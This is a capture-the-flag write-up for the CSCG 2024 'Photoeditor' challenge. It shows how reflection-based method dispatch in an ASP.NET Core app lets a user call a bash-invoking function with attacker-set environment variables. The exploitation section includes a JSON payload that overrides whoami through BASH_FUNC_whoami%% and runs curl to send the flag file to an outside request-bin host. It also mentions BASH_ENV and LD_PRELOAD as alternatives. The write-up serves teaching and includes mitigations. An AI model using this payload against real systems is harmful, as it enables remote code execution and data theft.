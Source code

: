 ```yaml
---
title: Photoeditor
author: Adrian Junge
description: Recently I learned ASP .NET Core and boy, it's so magic! Dependency injection, dynamic routing, interfaces everywhere. But for me, it wasn't dynamic enough. So I extended the framework and now I got all the dynamic in the world I could wish for. That surely didn't introduce any vulnerabilities, right?",
categories:
    - Web
    - .NET
year: 2024
challengefiles: photoeditor.zip
published: "2024-05-01"
---
```


# TL;DR<a id="TL;DR"></a>
    **- Challenge Setup:** `.NET` web application written in `C#` allowing image uploads
    **- Key Discoveries:** Image manipulation is done by dynamically calling functions
    **- Vulnerability:** Unsanitized user input is used to dynamically call functions
    **- Exploitation:** Calling `GetUsername` method allows us to set arbitrary env vars and thus overwriting the functionality of arbitrary commands e.g. via `BASH_FUNC_whoami%%`

# 1. Introduction<a id="introduction"></a>
This challenge was about some interesting dynamic implementation to process user generated input calling appropriate functions in the application:

```
Recently I learned ASP .NET Core and boy, it's so magic!
Dependency injection, dynamic routing, interfaces everywhere.
But: For me, it wasn't dynamic enough.
So I extended the framework and now I got all the dynamic in the world I could wish for.
That surely didn't introduce any vulnerabilities, right?
```


# 2. Reconnaissance<a id="reconnaissance"></a>
Looking around on the webpage you have access to, you can play around uploading some pictures and editing these with special options.

![rickroll](ctf/writeups/cscg/photoeditor/rick.png "rickroll")

Uploading pictures is usually very interesting by giving a nice attack surface. But having a look at the **C#** code you realize the picture is never uploaded as a file to the server. It is just getting cached in the memory and there being modified directly. Looking through the source files one of them looks very interesting. One of the controllers is executing some bash command with arbitrarily set environment variables. This might be useful later, although just being able to execute `whoami` doesn’t seem that interesting at first...


```c#
public String GetUsername(Dictionary<String,String> env) {
    Process process = new Process();
    process.StartInfo.FileName = "bash";
    process.StartInfo.Arguments = "-c 'whoami'";

    foreach (var kv in evn)
    {
        process.StartInfo.EnvironmentVariables[kv.Key] = kv.Value;
    }

    process.StartInfo.UseShellExecute = false;
    process.StartInfo.RedirectStandardOutput = true;
    process.StartInfo.RedirectStandardError = true;
    process.Start();
    string output = process.StandardOutput.ReadToEnd();
    Console.WriteLine(output);
    string err = process.StandardError.ReadToEnd();
    Console.WriteLine(err);
    process.WaitForExit();

    return output + err;
}
```

By having a closer look at the rest of your code the `DynamicPhotoEditorController` seems very interesting. This controller defines the editing process of the image. The chosen editing action is part of the request and is being processed in an interesting way.

```c#
var actionMethod = this.GetType().GetMethod(photoTransferRequestModel.DynamicAction);
```

After some deserialization of the given request parameters the given action method is called with the request parameters.

```c#
var transformedImage = (Image)actionMethod.Invoke(this, editParams);
```

Definitely a way to make your application very dynamic – but also very vulnerable... These lines of code just takes the `DynamicAction` request parameter, maps it to an arbitrary method of the controller, and executes it. For example, rotating the image is done with the following request parameters:

```json
{
    "DynamicAction":"RotateImage",
    "Parameters":"[90]",
    "Types":null
}
```


# 3. Vulnerability Description<a id="vulnerability description"></a>
At first, it seems like there are no interesting functions to call but taking a closer look at the code you realize the `DynamicPhotoEditorController` is inheriting from the `BaseAPIController` which implements the `GetUsername` function. So maybe you can call this one and make the application execute `whoami`? The given `DynamicAction` is not being sanitized and validated by the server. By setting `DynamicAction` to `GetUsername` you get:

```json
{
    "base64Blob":null,
    "error": "Object of type 'System.Int64' cannot be converted to type 'System.Collections.Generic.Dictionary`2[System.String,System.String]'."
}
```

Although it is just throwing an error hinting some issues with converting some types, this seems promising. It seems like it is having problems calling the `GetUsername` function because the parameter got the wrong type. There is an example usage of the `GetUsername` function in the `HealthController`. By setting the `Types` field to `System.Collections.Generic.Dictionary'2[System.String,System.String]` and the `Parameters` field for the environment variables correctly:

```json
{
    "DynamicAction":"GetUsername",
    "Parameters":"[{\"PATH\":\"/usr/bin\"}]",
    "Types":[
        "System.Collections.Generic.Dictionary`2[System.String,System.String]"
    ]
}
```

you unfortunately get another error:

```json
{
    "base64Blob":null,
    "error":"Unable to cast object of type 'System.String' to type 'SixLabors.ImageSharp.Image'."
}
```

But having another look on the code it seems like the `whoami` command must have been executed. This error must be part of the editor controller. Right after calling the action method, the result is converted to `Image`.

```c#
var transformedImage = (Image)actionMethod.Invoke(this, editParams);
```

But what now?


# 4. Exploitation<a id="exploitation"></a>
Only being able to execute some hard-coded commands like `whoami` and being able to set the environment variables can’t be enough for RCE right? But indeed it is enough! After searching for some weird bash environment variables I found something interesting. By setting `BASH_FUNC_whoami%%=() { id; }` you could override the behavior of the `whoami` command executing for example the `id` command. By setting the request parameters like following:

```json
{
    "DynamicAction":"GetUsername",
    "Parameters":"[{\"BASH_FUNC_whoami%%\":\"() { curl -d @flag https://...pipedream.net; }\"}]",
    "Types":[
        "System.Collections.Generic.Dictionary`2[System.String,System.String]"
    ]
}
```

you can extract the flag to your request bin

![pastebin](ctf/writeups/cscg/photoeditor/flag_pastebin.png "pastebin")

There are some other solutions with different bash environment variables like `BASH_ENV` and `LD_PRELOAD`.


# 5. Mitigation<a id="mitigation"></a>
This is clearly a problem of the implementation. At least some input sanitization and validation of the `DynamicAction` parameter should have been added like limiting the allowed character, length etc. But input validation should never be the only security measurement. With some weird edge cases an attacker could still bypass it. Another option would be some kind of static mapping from parameter to function. Moreover executing shell commands via the code is a bad idea. There are most of the time safe built-in functions in **C#** doing the same job. Also setting the environment variables dynamically can lead to security issues as already described. Setting the environment variables should be part of the deployment e.g. in a docker container and not part of the code.


# 6. Flag<a id="flag"></a>
CSCG\{AppSec\_Chall3nge\_disguised\_as\_W3b\_sorry:)\}
